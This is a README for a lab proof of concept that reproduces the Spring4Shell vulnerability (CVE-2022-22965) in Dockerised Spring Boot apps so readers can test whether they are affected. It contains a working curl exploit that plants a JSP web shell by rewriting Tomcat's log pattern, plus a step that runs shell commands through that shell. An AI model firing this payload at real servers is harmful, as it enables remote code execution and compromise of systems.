# Replicate spring shell 0 day vulnerability
This is a POC to test spring shell vulnerability in a spring-boot app on multiple runtimes. You can test spring-boot WAR on Tomcat and spring-boot JAR


## Step 1: Prepare vulnerable service
Below are 2 paths to create a service. One is a spring-boot WAR running on Tomcat and the other is a standalone spring-boot jar executable

### spring-boot WAR on tomcat
1. Run command to:
   - Package a war file
   - Build a tomcat 8 Corretto 11 image
   - Run a container from the image        
 `mvn clean package -P war && docker build . -f Dockerfile-war -t springshell && docker run --name springshell --rm -p 8080:8080 springshell`
2. Run curl command attempts to create a jsp file in the tomcat webapps/ROOT folder. The jsp name is springshell.jsp
   1. If the jsp is not created, there is no vulnerability
```
curl --request POST \
  --url http://localhost:8080/springshell/zeroday \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --header 'c: Runtime' \
  --header 'prefix: <%' \
  --header 'suffix: %>//' \
  --data 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di' \
  --data class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp \
  --data class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT \
  --data class.module.classLoader.resources.context.parent.pipeline.first.prefix=springshell \
  --data class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
3. Review jsp content:
`docker exec -it springshell bash -c "cd webapps/ROOT;cat springshell.jsp"`

### spring-boot jar
1. Run command to:
    - Package a jar file
    - Build a Corretto 11 image
    - Create a container from the image        
      `mvn clean package && docker build . -t springshell && docker run --name springshell --rm -p 8080:8080 springshell`
2. Run curl command that attempts to create a jsp file in the tomcat webapps/ROOT folder. The jsp name is springshell.jsp
    1. If the jsp is not created, there is no vulnerability
```
curl --request POST \
  --url http://localhost:8080/zeroday \
  --header 'Content-Type: application/x-www-form-urlencoded' \
  --header 'c: Runtime' \
  --header 'prefix: <%' \
  --header 'suffix: %>//' \
  --data 'class.module.classLoader.resources.context.parent.pipeline.first.pattern=%25%7Bprefix%7Di%20java.io.InputStream%20in%20%3D%20%25%7Bc%7Di.getRuntime().exec(request.getParameter(%22cmd%22)).getInputStream()%3B%20int%20a%20%3D%20-1%3B%20byte%5B%5D%20b%20%3D%20new%20byte%5B2048%5D%3B%20while((a%3Din.read(b))!%3D-1)%7B%20out.println(new%20String(b))%3B%20%7D%20%25%7Bsuffix%7Di' \
  --data class.module.classLoader.resources.context.parent.pipeline.first.suffix=.jsp \
  --data class.module.classLoader.resources.context.parent.pipeline.first.directory=webapps/ROOT \
  --data class.module.classLoader.resources.context.parent.pipeline.first.prefix=springshell \
  --data class.module.classLoader.resources.context.parent.pipeline.first.fileDateFormat=
```
3. Check if jsp is present in embedded tomcat ROOT folder:
`docker exec -it springshell bash -c "cd /tmp/tomcat.*.8080/work/Tomcat/localhost/ROOT;ls"`

## Step 2: Exploitation
- Hit this url in the browser and update the shell cmd (_cmd_ query param) to print the result of the command
`http://localhost:8080/springshell.jsp?cmd=pwd`
  - If there is no response or a 404, __the application is not compromised_
  - If the output is the response of a shell command execution, __the application is compromised__. Refer remediation steps in the references below

## More 

## Reference
- https://tanzu.vmware.com/security/cve-2022-22965
- https://blog.sonatype.com/new-0-day-spring-framework-vulnerability-confirmed
- https://www.rapid7.com/blog/post/2022/03/30/spring4shell-zero-day-vulnerability-in-spring-framework/